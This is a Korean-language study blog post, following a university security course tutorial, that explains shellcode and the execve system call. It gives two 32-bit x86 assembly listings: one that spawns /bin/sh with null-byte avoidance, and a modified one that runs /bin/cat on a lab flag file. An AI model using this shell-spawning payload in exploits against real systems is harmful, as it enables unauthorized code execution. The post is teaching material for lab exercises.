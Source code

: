 ```yaml
---
layout: post
title:  "Shellcode란?"
date:   2020-12-30 20:19:35 +0900
categories: [ComputerArchitecture]
---
```


# Shellcode란?
## Shellcode 튜토리얼
- 참고링크: [CS6265 튜토리얼](https://tc.gts3.org/cs6265/2020/tut/tut02-warmup2.html#shellcode)  
- 목표: interactive shell 실행
Shellcode란 기본적으로 시스템 해킹, [exploitation(취약점 공격)](https://ko.wikipedia.org/wiki/%EC%B7%A8%EC%95%BD%EC%A0%90_%EA%B3%B5%EA%B2%A9)을 위한 generic [payload](https://ko.wikipedia.org/wiki/%ED%8E%98%EC%9D%B4%EB%A1%9C%EB%93%9C_(%EC%BB%B4%ED%93%A8%ED%8C%85))이다. 

위 링크의 CS6265 튜토리얼에서는 우선 execve를 사용해서 현재 실행중인 프로세스를 바꿔서 정해진 flag를 출력하도록 하고 있다. 

## execve란

`int execve(const char *filename, char *const argv[], char *const envp[]);`

이 함수는 현재 실행중인 프로세스의 실행코드를 실행가능한 파일인 filename로 바꾼다. filename 프로그램의 코드를 메모리에 새로 load함으로써, 현재 실행 중인 프로세스의 기능이 filename의 것으로 완전히 바뀐다. 그래서 기존 프로세스는 그대로 두면서 새로운 프로세스를 만드는 fork()와는 구별된다. 

위의 argv는 argument vector, envp는 environment이다. argument가 배열 형태로 따라오고, 또 환경변수로도 따라온다. 

## shellcode에서 execve

아래에 코드 1과 코드 2가 있다. 코드 1을 수정해서 flag를 출력할 수 있도록 (코드 2로) 바꾸어야 한다. 그 과정을 보면, 우선 `#define STRING`을 통해서 문자열을 하나 만든다. 그 문자열은 맨 아래의 `.string STRING`에 있다. 이게 특이한 부분인데 보통 실행코드가 위치해야 하는 어셈블리의 부분에 문자열이 있게 된다.  
STRING을 코드 2와 같이 고치면 어떻게 될까? 다른 부분도 고쳐야 하기는 하지만, 결론을 말하면 `/bin/sh`를 실행하던 코드가 `/bin/cat`을 실행하고, 그 `/bin/cat`의 argument로 `/proc/flag`를 넘겨줘서 flag가 출력되게 된다. 

- 코드 1의 개요도
    ```
    +-------------+
    v             |
    [/bin/cat][0][ptr ][NULL]
                ^     ^     
                |     +-- envp
                +-- argv

    ```

- 코드 2의 개요도
    ```
    +----------------------------+
    |             +--------------=-----+
    v             v              |     |
    [/bin/cat][0][/proc/flag][0][ptr1][ptr2][NULL]
                                ^           ^
                                |           +-- envp
                                +-- argv

    ```

- 코드 1
    ```
    #include <sys/syscall.h>

    #define STRING  "/bin/sh"
    #define STRLEN  7
    #define ARGV    (STRLEN+1)
    #define ENVP    (ARGV+4)

    .intel_syntax noprefix
    .text

    .globl main
    .type  main, @function

    main:
    jmp     calladdr

    popladdr:
    pop    esi                    /* esi points to STRING */
    mov    [ARGV+esi],esi         /* set up argv[0] pointer to pathname */
    xor    eax,eax                /* get a 32-bit zero value */
    mov    [STRLEN + esi],al      /* null-terminate our string */
    mov    [ENVP + esi], eax      /* set up null envp */

    mov    al,SYS_execve          /* syscall number */
    mov    ebx,esi                /* arg 1: string pathname */
    lea    ecx,[ARGV + esi]       /* arg 2: argv */
    lea    edx,[ENVP + esi]       /* arg 3: envp */
    int    0x80                   /* execve("/bin/sh", ["/bin/sh", NULL], [NULL]) */

    xor    ebx,ebx                /* arg 1: 0 */
    mov    eax,ebx
    inc    eax                    /* exit(0) */
    /* mov+inc to avoid null byte */
    int    0x80                   /* invoke syscall */

    calladdr:
    call    popladdr
    .string STRING

    ```

- 코드 2
    ```
    #include <sys/syscall.h>

    #define STRING  "/bin/catN/proc/flag"
    #define STRLEN1 8
    #define STRLEN2 19
    #define ARGV    (STRLEN2+1)
    #define ENVP    (ARGV+8)

    .intel_syntax noprefix
    .text
        
    .globl main
    .type  main, @function

    main:
    jmp     calladdr

    popladdr:
    pop    esi                    /* esi points to STRING */
    mov    edi, esi
    add    edi, STRLEN1+1

    mov    [ARGV+esi],esi         /* set up argv[0] pointer to pathname */
    mov    [ARGV+4+esi], edi

    xor    eax,eax                /* get a 32-bit zero value */
    mov    [STRLEN1 + esi],al      /* null-terminate our string */
    mov    [STRLEN2 + esi],al      /* null-terminate our string */
    mov    [ENVP + esi], eax      /* set up null envp */
    
    mov    al,SYS_execve          /* syscall number */
    mov    ebx,esi                /* arg 1: string pathname */
    lea    ecx,[ARGV + esi]       /* arg 2: argv */
    lea    edx,[ENVP + esi]       /* arg 3: envp */
    int    0x80                   /* execve("/bin/sh", ["/bin/sh", NULL], [NULL]) */
    
    xor    ebx,ebx                /* arg 1: 0 */
    mov    eax,ebx
    inc    eax                    /* exit(0) */
    /* mov+inc to avoid null byte */
    int    0x80                   /* invoke syscall */

    calladdr:
    call    popladdr
    .string STRING

    ```

